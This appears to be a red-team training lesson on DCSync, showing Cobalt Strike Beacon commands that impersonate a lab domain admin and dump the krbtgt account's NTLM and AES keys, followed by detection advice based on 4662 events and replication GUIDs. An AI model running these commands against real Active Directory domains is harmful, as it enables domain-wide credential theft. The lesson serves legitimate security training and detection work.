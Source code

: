 The [Directory Replication Service (MS-DRSR) protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/f977faaa-673e-4f66-b9bf-48c640241d47) is used to synchronise and replicate Active Directory data between domain controllers.  DCSync is a technique which leverages this protocol to extract username and credential data from a DC.

  This requires [GetNCChanges](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/b63730ac-614c-431c-9501-28d6aca91894) which is usually only available to domain admins.  The technique is included here for completeness, and it will be useful later on.

  

Beacon has a dedicated `dcsync` command, which calls `mimikatz lsadump::dcsync` in the background.
```
beacon> make_token DEV\nlamb F3rrari

beacon> dcsync dev.cyberbotic.io DEV\krbtgt
[DC] 'dev.cyberbotic.io' will be the domain
[DC] 'dc-2.dev.cyberbotic.io' will be the DC server
[DC] 'DEV\krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

Credentials:
  Hash NTLM: 9fb924c244ad44e934c390dc17e02c3d
    ntlm- 0: 9fb924c244ad44e934c390dc17e02c3d
    lm  - 0: 207d5e08551c51892309c0cf652c353b
		
* Primary:Kerberos-Newer-Keys *
    Default Salt : DEV.CYBERBOTIC.IOkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 51d7f328ade26e9f785fd7eee191265ebc87c01a4790a7f38fb52e06563d4e7e
      aes128_hmac       (4096) : 6fb62ed56c7de778ca5e4fe6da6d3aca
      des_cbc_md5       (4096) : 629189372a372fda
```
  

Here we have extracted the NTLM and AES keys for the krbtgt account using _lamb_ (a domain admin).

  

  **OPSEC**  
  
Directory replication can be detected if Directory Service Access auditing is enabled, by searching for 4662 events where the identifying GUID is `1131f6aa-9c07-11d1-f79f-00c04fc2dcd2` (for DS-Replication-Get-Changes and DS-Replication-Get-Changes-All) or `89e95b76-444d-4c62-991a-0facbeda640c` (DS-Replication-Get-Changes-In-Filtered-Set).  
  
Find these using the "Suspicious Directory Replication" saved search in Kibana.

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/ef3/5c1/12b/dcsync.png)

  

Replication traffic usually only occurs between domain controllers but can also be seen via applications such as [Azure AD Connect](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-azure-ad-connect).  Mature organisations should baseline typical DRS traffic to find suspicious outliers.